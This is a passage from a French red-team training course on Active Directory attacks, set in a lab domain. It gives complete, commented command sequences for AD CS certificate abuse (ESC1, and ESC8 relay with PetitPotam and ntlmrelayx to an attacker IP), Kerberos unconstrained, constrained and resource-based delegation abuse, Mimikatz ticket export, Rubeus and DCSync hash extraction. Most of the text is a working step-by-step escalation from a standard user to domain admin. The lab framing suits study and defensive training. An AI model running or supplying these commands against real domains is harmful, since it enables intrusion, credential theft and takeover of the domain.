#### Automatisation avec PetitPotam + ntlmrelayx

```bash
# Terminal 1 : Lancer le relais NTLM vers ADCS (à exécuter en premier)
# impacket-ntlmrelayx : écoute sur le port 445 (par défaut) et relaie vers ADCS
#   -t http://dc01.redteam.lab/certsrv/certfnsh.asp : endpoint ADCS
#   -smb2support : support SMB2
#   --adcs : mode certificat automatique
#   --template VulnTemplate : template ESC1 vulnérable
impacket-ntlmrelayx -t http://dc01.redteam.lab/certsrv/certfnsh.asp \
    -smb2support --adcs --template VulnTemplate

# Terminal 2 : Déclencher l'authentification avec PetitPotam (dans un autre terminal)
# python3 PetitPotam.py : force DC01 à s'authentifier
#   -d redteam.lab -u alice -p Passw0rd! : credentials pour l'appel RPC
#   <KALI_IP> : adresse IP de l'attaquant (où ntlmrelayx écoute)
#   <DC01_IP> : adresse IP du DC à forcer
python3 PetitPotam.py -d redteam.lab -u alice -p Passw0rd! \
    <KALI_IP> <DC01_IP>
```

**Explication des commandes :**

| Commande/Option | Rôle/Explication |
|----------------|------------------|
| `impacket-ntlmrelayx` | Relais NTLM (premier terminal) |
| `PetitPotam.py` | Force l'authentification du DC vers l'attaquant (second terminal) |
| `<KALI_IP>` | Adresse IP de l'attaquant où ntlmrelayx est à l'écoute |
| `<DC01_IP>` | Adresse IP du DC à forcer à s'authentifier |

### 9.4 Certipy en détail

#### Énumération complète

```bash
# Énumération avancée avec Certipy (trouver les templates vulnérables)
# certipy find : énumération complète de l'infrastructure ADCS
#   -u alice@redteam.lab -p 'Passw0rd!' : credentials
#   -dc-ip 192.168.56.10 : IP du DC
#   -enabled : ne montrer que les templates activés
#   -vulnerable : ne montrer que les templates vulnérables (ESC1, ESC2, etc.)
#   -stdout : affichage dans la console
certipy find -u alice@redteam.lab -p 'Passw0rd!' -dc-ip 192.168.56.10 \
    -enabled -vulnerable -stdout

# Sortie détaillée incluant les permissions, templates, et CA
```

**Explication des commandes :**

| Commande/Option | Rôle/Explication |
|----------------|------------------|
| `certipy find -enabled -vulnerable` | Énumération filtrée : templates activés ET vulnérables uniquement |
| `-enabled` | Filtre : seulement les templates activés (les désactivés ne sont pas exploitables) |
| `-vulnerable` | Filtre : seulement les templates avec des failles de sécurité (ESC1-ESC8) |

#### Demande de certificat

```bash
# ESC1 : Demande de certificat avec template vulnérable
# certipy req : demande un certificat
#   -u alice@redteam.lab -p 'Passw0rd!' : credentials du demandeur
#   -ca redteam-DC01-CA : autorité de certification
#   -template VulnTemplate : template ESC1 (Enrollee Supplies Subject)
#   -target dc01.redteam.lab : CA cible
#   -upn 'administrator@redteam.lab' : 🔴 UPN cible (Administrator) — usurpation
#   -key-size 4096 : taille de clé RSA (4096 bits, plus grande = plus sécurisé mais plus lent)
certipy req -u alice@redteam.lab -p 'Passw0rd!' \
    -ca redteam-DC01-CA -template VulnTemplate \
    -target dc01.redteam.lab \
    -upn 'administrator@redteam.lab' \
    -key-size 4096

# Options supplémentaires :
# -dns : spécifier un nom DNS alternatif dans le certificat
# -sid : spécifier un SID supplémentaire (pour SIDHistory)
# -out : fichier de sortie personnalisé (par défaut <UPN>.pfx)
```

**Explication des commandes :**

| Commande/Option | Rôle/Explication |
|----------------|------------------|
| `certipy req -upn '...'` | Demande de certificat avec usurpation d'identité (UPN arbitraire) |
| `-key-size 4096` | Taille de la clé RSA (bits) : 2048 par défaut, 4096 pour plus de compatibilité |
| `-dns` | Nom DNS alternatif (SAN) à inclure dans le certificat |
| `-sid` | SID supplémentaire à inclure (peut être utilisé pour SIDHistory) |
| `-out` | Chemin du fichier de sortie (défaut : <upn>.pfx) |

#### Authentification PKINIT

```bash
# Obtenir un TGT Kerberos avec le certificat (authentification PKINIT)
# certipy auth : utilise le certificat pour demander un TGT au KDC
#   -pfx administrator.pfx : certificat + clé privée (obtenu via l'attaque ESC1)
#   -dc-ip 192.168.56.10 : IP du KDC (le DC)
# Résultat : TGT pour Administrator injecté dans la session
certipy auth -pfx administrator.pfx -dc-ip 192.168.56.10

# Obtenir le hash NT (NTLM) de l'utilisateur à partir du TGT
# certipy auth -pfx administrator.pfx -domain redteam.lab
#   -domain redteam.lab : domaine cible
#   -dc-ip 192.168.56.10 : IP du DC
# Résultat : hash NTLM de Administrator (pour PTH, DCSync, etc.)
certipy auth -pfx administrator.pfx -domain redteam.lab -dc-ip 192.168.56.10

# Vérifier les informations du certificat
# certipy info -pfx administrator.pfx : affiche les métadonnées du certificat
#   Sujet, émetteur, dates de validité, EKU, etc.
certipy info -pfx administrator.pfx
```

**Explication des commandes :**

| Commande/Option | Rôle/Explication |
|----------------|------------------|
| `certipy auth -pfx <fichier>.pfx` | Authentification PKINIT — obtient un TGT avec le certificat |
| `-domain <domaine>` | Domaine pour l'extraction du hash NT (via U2U, User-to-User) |
| `certipy info -pfx <fichier>.pfx` | Affiche les informations du certificat (sujet, dates, EKU, etc.) |

### 9.5 TP guidé : ESC1 — Devenir Domain Admin via ADCS

#### Objectif
Depuis un utilisateur standard, abuser d'un template ESC1 pour obtenir un certificat au nom d'Administrator.

#### Étape 1 : Énumération

```bash
# Énumération avec Certipy (recherche de template ESC1 vulnérable)
# certipy find : liste les templates, CA, et permissions
#   -u alice@redteam.lab -p 'Passw0rd!' : credentials du demandeur
#   -dc-ip 192.168.56.10 : IP du DC
#   -stdout : affichage dans la console
certipy find -u alice@redteam.lab -p 'Passw0rd!' -dc-ip 192.168.56.10 -stdout

# Identifier un template vulnérable (ESC1) :
# - Enrollee Supplies Subject: True    ← le demandeur spécifie le sujet
# - Client Authentication EKU          ← utilisable pour l'authentification
# - Enrollment Rights: Domain Users    ← accessible aux utilisateurs standard
```

#### Étape 2 : Demande de certificat

```bash
# Demande de certificat ESC1 pour Administrator (usurpation d'identité)
# certipy req : demande un certificat à la CA
#   -u alice@redteam.lab -p 'Passw0rd!' : alice est le demandeur (compte standard)
#   -ca redteam-DC01-CA : autorité de certification
#   -template VulnTemplate : template vulnérable (ESC1)
#   -target dc01.redteam.lab : CA cible
#   -upn 'administrator@redteam.lab' : 🔴 UPN cible = Administrator
#     Même avec les droits d'alice (utilisateur standard), le certificat est émis pour Administrator
certipy req -u alice@redteam.lab -p 'Passw0rd!' \
    -ca redteam-DC01-CA \
    -template VulnTemplate \
    -target dc01.redteam.lab \
    -upn 'administrator@redteam.lab'

# Résultat attendu : administrator.pfx créé (certificat + clé privée pour Administrator)
```

**Explication des commandes :**

| Commande/Option | Rôle/Explication |
|----------------|------------------|
| `certipy req -upn 'administrator@...'` | Demande un certificat avec usurpation de l'UPN Administrator |
| Résultat : `administrator.pfx` | Fichier PKCS#12 contenant le certificat et la clé privée |

#### Étape 3 : Authentification

```bash
# Extraction du hash NT de Administrator via PKINIT
# certipy auth -pfx administrator.pfx -domain redteam.lab
#   Le certificat est utilisé pour s'authentifier auprès du KDC
#   Le domaine est spécifié pour extraire le hash NTLM (via U2U)
certipy auth -pfx administrator.pfx -domain redteam.lab -dc-ip 192.168.56.10

# Ou obtenir un TGT et lancer un shell LDAP
# -ldap-shell : ouvre un shell interactif LDAP après authentification
#   Permet d'interagir avec l'AD en tant que Administrator
certipy auth -pfx administrator.pfx -dc-ip 192.168.56.10 -ldap-shell

# DCSync avec le hash Administrator récupéré
# impacket-secretsdump : extrait les hashs du domaine
# "redteam.lab"/Administrator:<HASH>@192.168.56.10 : credentials Admin + IP du DC
# <HASH> : hash NTLM récupéré via certipy auth
impacket-secretsdump "redteam.lab"/Administrator:<HASH>@192.168.56.10
```

**Explication des commandes :**

| Commande/Option | Rôle/Explication |
|----------------|------------------|
| `certipy auth -pfx -domain` | Extraction du hash NT via PKINIT + U2U |
| `-ldap-shell` | Ouvre un shell interactif LDAP après authentification (utile pour explorer AD) |
| `impacket-secretsdump <domaine>/<user>:<hash>@<host>` | DCSync avec authentification par hash (hash Administrator obtenu) |

### 9.6 TP guidé : ESC8 — NTLM Relay vers ADCS

#### Objectif
Relayer une authentification NTLM forcée via PetitPotam vers l'endpoint ADCS pour obtenir un certificat DC.

#### Étape 1 : Vérification ADCS

```bash
# Vérifier que le service ADCS Web Enrollment est accessible
# curl -k : autorise les certificats HTTPS auto-signés (option -k, insecure)
#   -I : HEAD request (ne télécharge pas le corps, juste les en-têtes)
#   https://dc01.redteam.lab/certsrv/ : endpoint ADCS (Web Enrollment)
# Attendu : HTTP 200 (OK) ou 401 (Non autorisé) — l'important est que le service réponde
curl -k -I https://dc01.redteam.lab/certsrv/
# Attendu : HTTP 200 ou 401
```

**Explication des commandes :**

| Commande/Option | Rôle/Explication |
|----------------|------------------|
| `curl -k -I` | Requête HTTP HEAD avec vérification SSL désactivée (-k) |
| `https://dc01.redteam.lab/certsrv/` | URL du service ADCS Web Enrollment |

#### Étape 2 : Attaque NTLM Relay

```bash
# Terminal 1 : lancer ntlmrelayx pour le relais NTLM vers ADCS
# impacket-ntlmrelayx : relaie l'authentification NTLM vers l'endpoint ADCS
#   -t http://dc01.redteam.lab/certsrv/certfnsh.asp : endpoint de soumission
#   -smb2support : support SMB2
#   --adcs : demande automatique de certificat
#   --template VulnTemplate : template ESC1
impacket-ntlmrelayx -t http://dc01.redteam.lab/certsrv/certfnsh.asp \
    -smb2support \
    --adcs \
    --template VulnTemplate
```

**Explication des commandes :**

| Commande/Option | Rôle/Explication |
|----------------|------------------|
| `impacket-ntlmrelayx` | Relais NTLM (à exécuter dans un premier terminal) |
| `-t http://.../certfnsh.asp` | Cible du relais : endpoint de soumission de certificat ADCS |
| `--adcs --template VulnTemplate` | Mode certificat automatique avec template vulnérable |

#### Étape 3 : Forcer une authentification

```bash
# Terminal 2 : PetitPotam force DC01 à s'authentifier vers l'attaquant
# python3 PetitPotam.py : exploit MS-EFSRPC (Encrypting File System Remote Protocol)
#   -d redteam.lab -u alice -p Passw0rd! : credentials pour l'appel RPC
#   <KALI_IP> <DC01_IP> : l'attaquant force le DC à s'authentifier vers Kali
# Quand DC01 s'authentifie, ntlmrelayx (Terminal 1) relaie vers ADCS
# et obtient un certificat pour le compte DC01$
python3 PetitPotam.py -d redteam.lab -u alice -p Passw0rd! \
    <KALI_IP> <DC01_IP>

# Alternative : Printer Bug (serveur d'impression Windows)
# python3 printerbug.py : force le service d'impression à s'authentifier
#   redteam.lab/alice:Passw0rd!@dc01.redteam.lab : credentials + cible
#   <KALI_IP> : adresse de l'attaquant
python3 printerbug.py redteam.lab/alice:Passw0rd!@dc01.redteam.lab <KALI_IP>
```

**Explication des commandes :**

| Commande/Option | Rôle/Explication |
|----------------|------------------|
| `PetitPotam.py <KALI_IP> <DC01_IP>` | Exploit MS-EFSRPC — force le DC à s'authentifier vers l'IP de l'attaquant |
| `printerbug.py <domain>/<user>:<pass>@<target> <attacker_ip>` | Printer Bug — force l'authentification via le service d'impression |
| `<KALI_IP>` | Adresse IP de l'attaquant où ntlmrelayx écoute |

#### Étape 4 : Exploitation

```bash
# Terminal 1 reçoit le certificat DC01$.pfx (certificat pour le compte machine du DC)
# 
# Utilisation du certificat pour obtenir le hash du compte DC01$
# certipy auth -pfx DC01$.pfx : authentification PKINIT
#   -dc-ip 192.168.56.10 : DC pour l'authentification
# Résultat : hash NTLM du compte DC01$ obtenu
certipy auth -pfx DC01$.pfx -dc-ip 192.168.56.10

# Si le hash de DC01$ est obtenu, on peut tenter DCSync
# (dépend des droits de réplication — parfois le compte machine du DC a ces droits)
# Avec DCSync, on peut extraire tous les hashs du domaine (dont KRBTGT)
```

**Explication des commandes :**

| Commande/Option | Rôle/Explication |
|----------------|------------------|
| `certipy auth -pfx DC01$.pfx` | Authentification PKINIT avec le certificat du compte machine DC01$ |
| Résultat : hash NTLM de DC01$ | Peut être utilisé pour DCSync si le compte a les droits de réplication |

---

## 10. Kerberos Delegation Abuse (T1558)

### 10.1 Fondamentaux de la délégation Kerberos

La délégation Kerberos permet à un service de **s'authentifier auprès d'un autre service** au nom d'un utilisateur. C'est un mécanisme de "double-hop" : l'utilisateur s'authentifie sur Service A, qui agit ensuite en son nom sur Service B.

```
┌───────┐       ┌────────────┐       ┌────────────┐
│ User   │       │  Service A  │       │  Service B  │
│ (alice)│       │  (HTTP)    │       │  (SQL)     │
│        │──────→│            │──────→│            │
│        │ TGT   │  TGS User  │  TGS  │            │
│        │ TServA│→ Service B │       │            │
└───────┘       └────────────┘       └────────────┘
```

#### Types de délégation

| Type | Description | Sécurité | Détection |
|------|-------------|----------|-----------|
| **Unconstrained** | Le service reçoit le TGT de l'utilisateur | Faible | Très rare de nos jours |
| **Constrained** | Le service ne peut déléguer que vers des SPN spécifiques | Moyenne | Plus courant |
| **Resource-Based** | Le service cible définit qui peut déléguer vers lui | Bonne | Moderne (Windows 2012+) |

### 10.2 Unconstrained Delegation

#### Principe

Avec la délégation non contrainte, le service reçoit le **TGT de l'utilisateur** (via `forwardable TGT` dans le TGS). Le service peut ensuite s'authentifier **partout** au nom de l'utilisateur.

```powershell
# Énumération des serveurs avec Unconstrained Delegation
# Méthode 1 : PowerView
# Get-DomainComputer -Unconstrained : filtre les ordinateurs avec Unconstrained Delegation
#   -Unconstrained : paramètre PowerView filtrant userAccountControl & TRUSTED_FOR_DELEGATION
#   -Properties name, userAccountControl : affiche le nom et le flag UAC
Get-DomainComputer -Unconstrained -Properties name, userAccountControl

# Méthode 2 : BloodHound (Cypher query)
# MATCH (c:Computer {unconstraineddelegation:true}) : nœuds Computer avec UD = true
# RETURN c.name : retourne le nom des machines vulnérables
MATCH (c:Computer {unconstraineddelegation:true}) RETURN c.name

# Méthode 3 : Module ActiveDirectory
# Get-ADComputer -Filter {userAccountControl -band 524288} : filtre les machines
#   userAccountControl -band 524288 : test du bit 19 (TRUSTED_FOR_DELEGATION)
#   524288 = 0x80000 = UF_TRUSTED_FOR_DELEGATION
Get-ADComputer -Filter {userAccountControl -band 524288} -Properties userAccountControl
```

**Explication des commandes :**

| Commande/Option | Rôle/Explication |
|----------------|------------------|
| `Get-DomainComputer -Unconstrained` | PowerView — liste les ordinateurs avec Unconstrained Delegation |
| `MATCH (c:Computer {unconstraineddelegation:true})` | BloodHound — requête Cypher pour les machines avec UD |
| `Get-ADComputer -Filter {userAccountControl -band 524288}` | AD Module — filtre les machines avec le flag TRUSTED_FOR_DELEGATION |
| `524288` | Valeur hex 0x80000 = UF_TRUSTED_FOR_DELEGATION en UAC |

#### Abus : Forcer un serveur admin à s'authentifier

```powershell
# Étape 1 : Identifier un serveur avec Unconstrained Delegation (ex: SRV01)
# Étape 2 : Forcer un admin à se connecter à ce serveur (via PrinterBug, etc.)
# Étape 3 : Extraire le TGT de la mémoire du serveur (car il a le TGT de l'admin)

# Forcer une connexion avec PrinterBug (authentification forcée du DC vers le serveur UD)
# printerbug.py : force le service d'impression du DC à s'authentifier vers le serveur avec UD
#   redteam.lab/alice:Passw0rd!@dc01.redteam.lab : credentials + source
#   <SERVER_WITH_UD> : serveur cible configuré avec Unconstrained Delegation
# Résultat : le TGT du compte DC01$ est envoyé au serveur avec UD (stocké en mémoire LSASS)
python3 printerbug.py redteam.lab/alice:Passw0rd!@dc01.redteam.lab <SERVER_WITH_UD>

# Extraction du TGT avec Mimikatz (sur le serveur avec UD)
# sekurlsa::tickets /export : extrait TOUS les tickets Kerberos de la mémoire LSASS
#   Les tickets sont exportés en fichiers .kirbi dans le répertoire courant
#   /export : exporte chaque ticket dans un fichier séparé
mimikatz.exe "privilege::debug" "sekurlsa::tickets /export" exit

# Les tickets exportés sont dans des fichiers *.kirbi
# Le TGT de l'admin est identifiable par :
# [0;XXXXXXX] - Client: Administrator @ REDTEAM.LAB

# Réutilisation du TGT capturé (Pass-The-Ticket)
# kerberos::ptt <fichier.kirbi> : injecte le ticket dans la session courante (Pass-The-Ticket)
# klist : vérifie que le ticket est bien chargé
mimikatz.exe "kerberos::ptt <fichier.kirbi>" exit
klist
```

**Explication des commandes :**

| Commande/Option | Rôle/Explication |
|----------------|------------------|
| `printerbug.py <source> <cible>` | Force l'authentification du DC vers le serveur UD via MS-RPRN (Print Spooler) |
| `sekurlsa::tickets /export` | Module Mimikatz — extrait tous les tickets Kerberos de la mémoire de LSASS |
| `/export` | Sauvegarde chaque ticket dans un fichier .kirbi |
| `kerberos::ptt <fichier>` | Pass-The-Ticket — injecte un ticket exporté dans la session courante |
| `klist` | Vérifie les tickets Kerberos présents dans la session |

#### Attaque avec Rubeus

```powershell
# Sur le serveur avec Unconstrained Delegation
# Surveiller les tickets entrants (monitoring mode)
# Rubeus.exe monitor : écoute les tickets Kerberos entrants dans la mémoire LSASS
#   /interval:5 : intervalle d'interrogation en secondes
#   /nowrap : affiche le ticket en base64 sans retour à la ligne
# Quand un admin se connecte au serveur (via SMB, WinRM, etc.), son TGT est stocké en mémoire
# Rubeus le détecte et l'affiche automatiquement
Rubeus.exe monitor /interval:5 /nowrap

# Quand un admin se connecte, Rubeus capture le TGT
# Le ticket est affiché en base64 (prêt à être utilisé)

# Réutilisation directe du ticket capturé
# Rubeus.exe asktgs : demande un TGS pour un service en utilisant le ticket capturé
#   /ticket:<base64_TGT> : TGT capturé, encodé en base64
#   /service:cifs/dc01.redteam.lab : SPN du service cible (CIFS sur le DC)
#   /ptt : injection directe dans la session
Rubeus.exe asktgs /ticket:<base64_TGT> /service:cifs/dc01.redteam.lab /ptt
```

**Explication des commandes :**

| Commande/Option | Rôle/Explication |
|----------------|------------------|
| `Rubeus.exe monitor /interval:5 /nowrap` | Mode monitoring — capture les tickets Kerberos des connexions entrantes |
| `/interval:5` | Interrogation du cache LSASS toutes les 5 secondes |
| `/nowrap` | Ticket encodé en base64 sans saut de ligne (plus facile à copier) |
| `Rubeus.exe asktgs /ticket:<TGT> /service:<SPN> /ptt` | Demande un TGS pour un service avec le TGT capturé |

### 10.3 Constrained Delegation

#### Principe

Le service est limité : il ne peut déléguer que vers des **SPN spécifiques** (listés dans `msDS-AllowedToDelegateTo`).

```powershell
# Énumération des serveurs avec Constrained Delegation
# Méthode 1 : PowerView
# Get-DomainComputer -TrustedToAuth : filtre les ordinateurs avec Constrained Delegation
#   -TrustedToAuth : paramètre PowerView pour les machines avec msDS-AllowedToDelegateTo
#   -Properties name, msDS-AllowedToDelegateTo : nom + liste des SPN autorisés
Get-DomainComputer -TrustedToAuth -Properties name, msDS-AllowedToDelegateTo

# Méthode 2 : BloodHound
# MATCH (c:Computer)-[:AllowedToDelegate]->(s:Computer) : relations de délégation
# RETURN c.name, s.name : retourne le serveur source (qui délègue) et le serveur cible
MATCH (c:Computer)-[:AllowedToDelegate]->(s:Computer) RETURN c.name, s.name

# Méthode 3 : Vérifier les SPN autorisés pour un serveur spécifique
# Get-ADComputer SRV01 -Properties msDS-AllowedToDelegateTo : lit les SPN de délégation
# $computer.'msDS-AllowedToDelegateTo' : affiche la liste des SPN autorisés
$computer = Get-ADComputer SRV01 -Properties msDS-AllowedToDelegateTo
$computer.'msDS-AllowedToDelegateTo'
```

**Explication des commandes :**

| Commande/Option | Rôle/Explication |
|----------------|------------------|
| `Get-DomainComputer -TrustedToAuth` | PowerView — liste les ordinateurs avec Constrained Delegation |
| `MATCH (c)-[:AllowedToDelegate]->(s)` | BloodHound — trouve les relations de délégation entre machines |
| `Get-ADComputer -Properties msDS-AllowedToDelegateTo` | Lit l'attribut contenant les SPN pour lesquels le service peut déléguer |

#### Abus : S4U2Self + S4U2Proxy

L'attaque utilise les extensions Kerberos **S4U2Self** et **S4U2Proxy** (Service for User).

```
Étape 1 : S4U2Self
  → Demander un TGS pour l'utilisateur cible (sans TGT de sa part)
  → Obtention d'un "forwardable" TGS pour l'utilisateur cible

Étape 2 : S4U2Proxy
  → Utiliser le TGS forwardable pour demander un TGS
    vers le service autorisé dans msDS-AllowedToDelegateTo
  → Réception du TGS pour le service cible
```

```bash
# Avec Impacket (Python) — exploitation de Constrained Delegation
# Prérequis : hash du compte du service qui a Constrained Delegation

# S4U2Self + S4U2Proxy combinés (getST.py)
# impacket-getST : outil Impacket pour l'obtention de Service Tickets
#   -spn cifs/dc01.redteam.lab : SPN cible (service auquel on veut accéder)
#   -impersonate Administrator : utilisateur à usurper
#   -dc-ip 192.168.56.10 : IP du DC
#   "redteam.lab"/srv01$:P@ssword123! : credentials du compte service (SRV01$)
#     Le compte SRV01$ doit avoir Constrained Delegation vers CIFS/DC01
# Résultat : fichier Administrator.ccache contenant un TGS pour CIFS/DC01
impacket-getST -spn cifs/dc01.redteam.lab \
    -impersonate Administrator \
    -dc-ip 192.168.56.10 \
    "redteam.lab"/srv01$:P@ssword123!

# Utilisation du service ticket (TGS) pour accéder à la ressource
export KRB5CCNAME=Administrator.ccache
smbclient.py -k dc01.redteam.lab -no-pass
```

**Explication des commandes :**

| Commande/Option | Rôle/Explication |
|----------------|------------------|
| `impacket-getST` | Outil Impacket pour S4U2Self + S4U2Proxy (obtention de TGS) |
| `-spn cifs/dc01.redteam.lab` | SPN du service cible (CIFS = SMB sur le DC) |
| `-impersonate Administrator` | Utilisateur à usurper (Administrator) |
| `"domaine"/compte$:motdepasse` | Credentials du compte service qui a la délégation |
| `export KRB5CCNAME` | Définit le cache pour utiliser le TGS obtenu |

```powershell
# Avec Rubeus (C#) — exploitation de Constrained Delegation
# Rubeus.exe s4u : S4U2Self + S4U2Proxy combinés
#   /user:srv01$ : compte service qui a la délégation (compte machine SRV01)
#   /rc4:aaaaaabbbbbbccccccddddddeeeeeeee : hash RC4 du compte srv01$
#   /impersonateuser:Administrator : utilisateur à usurper
#   /msdsspn:cifs/dc01.redteam.lab : SPN cible (service auquel accéder)
#   /ptt : injection immédiate du TGS dans la session
Rubeus.exe s4u /user:srv01$ /rc4:aaaaaabbbbbbccccccddddddeeeeeeee \
    /impersonateuser:Administrator \
    /msdsspn:cifs/dc01.redteam.lab \
    /ptt

# Vérification
klist
dir \\dc01.redteam.lab\c$
```

**Explication des commandes :**

| Commande/Option | Rôle/Explication |
|----------------|------------------|
| `Rubeus.exe s4u` | Extension S4U (Service for User) — S4U2Self + S4U2Proxy |
| `/user:srv01$` | Compte service (machine) avec Constrained Delegation |
| `/rc4:<hash>` | Hash RC4 du compte service |
| `/impersonateuser:Administrator` | Utilisateur à usurper |
| `/msdsspn:cifs/dc01.redteam.lab` | SPN cible de la délégation |
| `/ptt` | Pass-The-Ticket : injection directe |

#### S4U2Self sans forwardable (Rubeus)

```powershell
# Si le TGS retourné n'est pas forwardable (problème courant avec S4U2Self)
# Rubeus avec /altservice permet de modifier le SPN cible
# Rubeus.exe s4u : avec option /altservice pour changer le service du TGS
#   /user:srv01$ : compte service avec délégation
#   /rc4:aaaaaabbbbbbccccccddddddeeeeeeee : hash RC4
#   /impersonateuser:Administrator : utilisateur usurpé
#   /msdsspn:cifs/dc01.redteam.lab : SPN original de la délégation
#   /altservice:host,ldap : 🔴 modifie le service cible du TGS obtenu
#     Permet d'utiliser le TGS pour HOST (tâches planifiées) ou LDAP (interrogation AD)
#   /ptt : injection
Rubeus.exe s4u /user:srv01$ /rc4:aaaaaabbbbbbccccccddddddeeeeeeee \
    /impersonateuser:Administrator \
    /msdsspn:cifs/dc01.redteam.lab \
    /altservice:host,ldap \
    /ptt
```

**Explication des commandes :**

| Commande/Option | Rôle/Explication |
|----------------|------------------|
| `/altservice:host,ldap` | 🔴 Modifie le service cible du TGS (permet d'utiliser le même ticket pour différents protocoles) |
| Cas d'usage : | Si CIFS n'est pas forwardable, `/altservice` permet de le réutiliser pour HOST ou LDAP |

### 10.4 Resource-Based Constrained Delegation (RBCD)

#### Principe

Avec RBCD (Windows Server 2012+), le **service cible** (ressource) définit qui peut déléguer vers lui, via l'attribut `msDS-AllowedToActOnBehalfOfOtherIdentity`.

```
┌────────────┐       ┌──────────────────┐
│  Attaquant  │       │  Service Cible   │
│ (machine    │       │  (DC01)          │
│  appartenue)│       │                  │
│            │       │ msDS-AllowedTo   │
│            │       │ ActOnBehalfOf    │
│            │──────→│ = {SID de la     │
│            │ TGS   │   machine        │
│            │       │   contrôlée}     │
└────────────┘       └──────────────────┘
```

#### Abus RBCD

```powershell
# Étape 1 : Ajouter une machine au domaine (nécessite des droits ou politique permissive)
# Option A : Avec des credentials (si la politique ms-DS-MachineAccountQuota le permet — défaut: 10)
# New-MachineAccount : PowerView — crée un objet ordinateur dans AD
#   -MachineName "FAKECOMPUTER" : nom de la machine à créer
#   -Password (ConvertTo-SecureString "hack123!" -AsPlainText -Force) : mot de passe de la machine
New-MachineAccount -MachineName "FAKECOMPUTER" -Password (ConvertTo-SecureString "hack123!" -AsPlainText -Force)

# Option B : Si on a GenericWrite/GenericAll sur un objet ordinateur existant (pas de création nécessaire)

# Étape 2 : Configurer RBCD sur la cible (DC01)
# Attribuer msDS-AllowedToActOnBehalfOfOtherIdentity avec le SID de la machine contrôlée
# Get-DomainComputer FAKECOMPUTER -Properties objectSid : récupère le SID de notre machine
$sid = Get-DomainComputer FAKECOMPUTER -Properties objectSid
# Créer un RawSecurityDescriptor : ACE avec contrôle total pour notre machine (SID)
$rsd = New-Object Security.AccessControl.RawSecurityDescriptor "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($sid))"
# Convertir en tableau de bytes (format binaire de l'attribut AD)
$rsdb = New-Object byte[] ($rsd.BinaryLength)
$rsd.GetBinaryForm($rsdb, 0)
# Écrire l'attribut msDS-AllowedToActOnBehalfOfOtherIdentity sur DC01
# Set-DomainObject : PowerView — modifie l'attribut
#   -Identity DC01 : ordinateur cible (DC01)
#   -Set @{"msDS-AllowedToActOnBehalfOfOtherIdentity"=$rsdb} : 🔴 définit le RBCD
#     DC01 autorise maintenant FAKECOMPUTER$ à déléguer vers lui
Set-DomainObject -Identity DC01 -Set @{"msDS-AllowedToActOnBehalfOfOtherIdentity"=$rsdb}
```

**Explication des commandes :**

| Commande/Option | Rôle/Explication |
|----------------|------------------|
| `New-MachineAccount -MachineName "FAKECOMPUTER" -Password ...` | Crée un objet ordinateur dans AD (PowerView) |
| `Get-DomainComputer FAKECOMPUTER -Properties objectSid` | Récupère le SID de l'ordinateur créé |
| `RawSecurityDescriptor "O:BAD:(A;;...;$sid)"` | Crée un descripteur de sécurité avec une ACE Allow pour le SID |
| `Set-DomainObject -Identity DC01 -Set @{"msDS-AllowedToActOnBehalfOfOtherIdentity"=$rsdb}` | 🔴 Configure RBCD : autorise FAKECOMPUTER$ à déléguer vers DC01 |

```bash
# Avec Impacket — exploitation de RBCD (Resource-Based Constrained Delegation)
# Étape 1 : Créer un compte machine contrôlé par l'attaquant
# addcomputer.py : outil Impacket pour ajouter un ordinateur au domaine
#   -computer-name 'FAKECOMPUTER$' : nom du compte machine ($ obligatoire)
#   -computer-pass 'Hacked123!' : mot de passe du compte machine
#   "redteam.lab"/alice:'Passw0rd!' : credentials d'un utilisateur avec droits de création
python3 addcomputer.py -computer-name 'FAKECOMPUTER$' \
    -computer-pass 'Hacked123!' \
    "redteam.lab"/alice:'Passw0rd!'

# Étape 2 : Modifier RBCD sur la cible (DC01) — autoriser FAKECOMPUTER$ à déléguer
# rbcd.py : outil Impacket pour gérer RBCD
#   -delegate-from 'FAKECOMPUTER$' : 🔴 machine autorisée à déléguer (contrôlée par l'attaquant)
#   -delegate-to 'DC01$' : 🔴 machine cible (sur laquelle on veut agir en tant qu'admin)
#   -action write : écrit la configuration
#   "redteam.lab"/alice:'Passw0rd!' : credentials (doit avoir GenericWrite sur DC01$)
python3 rbcd.py -delegate-from 'FAKECOMPUTER$' \
    -delegate-to 'DC01$' \
    -action write \
    "redteam.lab"/alice:'Passw0rd!'

# Étape 3 : S4U2Proxy avec le compte machine pour obtenir un TGS vers DC01
# getST.py : obtention de Service Ticket
#   -spn cifs/dc01.redteam.lab : SPN cible (CIFS sur DC01)
#   -impersonate Administrator : utilisateur à usurper
#   -dc-ip 192.168.56.10 : IP du DC
#   "redteam.lab"/'FAKECOMPUTER$':'Hacked123!' : credentials de la machine contrôlée
python3 getST.py -spn cifs/dc01.redteam.lab \
    -impersonate Administrator \
    -dc-ip 192.168.56.10 \
    "redteam.lab"/'FAKECOMPUTER$':'Hacked123!'

# Étape 4 : Utilisation du TGS pour accéder au service cible
export KRB5CCNAME=Administrator.ccache
smbclient.py -k dc01.redteam.lab -no-pass
```

**Explication des commandes :**

| Commande/Option | Rôle/Explication |
|----------------|------------------|
| `addcomputer.py -computer-name 'FAKECOMPUTER$'` | Crée un compte machine dans AD (nécessite ms-DS-MachineAccountQuota) |
| `-computer-pass 'Hacked123!'` | Mot de passe du compte machine créé |
| `rbcd.py -delegate-from 'X$' -delegate-to 'Y$' -action write` | Configure RBCD : la machine X peut déléguer vers la machine Y |
| `getST.py -spn cifs/... -impersonate Administrator` | Obtient un TGS pour CIFS via S4U2Proxy (RBCD) |
| `smbclient.py -k -no-pass` | Accès SMB avec le TGS obtenu |

### 10.5 BloodHound pour la délégation

```cypher
// Trouver les machines avec Unconstrained Delegation
MATCH (c:Computer {unconstraineddelegation:true}) RETURN c.name

// Trouver les machines avec Constrained Delegation
MATCH (c:Computer)-[:AllowedToDelegate]->(t:Computer) 
RETURN c.name, t.name

// Trouver les chemins RBCD
MATCH (c:Computer)-[:AddAllowedToAct]->(t:Computer)
RETURN c.name, t.name

// Trouver le plus court chemin vers Domain Admin via délégation
MATCH p = shortestPath(
    (u:User)-[:MemberOf*0..1]->()
    -[:AdminTo|GenericAll|GenericWrite|AllowedToDelegate*1..]->(c:Computer)
)
WHERE u.name STARTS WITH "ALICE"
RETURN p
```

### 10.6 TP guidé : Unconstrained Delegation → Admin

#### Objectif
Abuser d'un serveur configuré en Unconstrained Delegation pour capturer un TGT d'admin.

#### Étape 1 : Identifier les serveurs vulnérables

```bash
# PowerView : énumérer les serveurs avec Unconstrained Delegation
# Get-DomainComputer -Unconstrained : filtre les machines avec UD
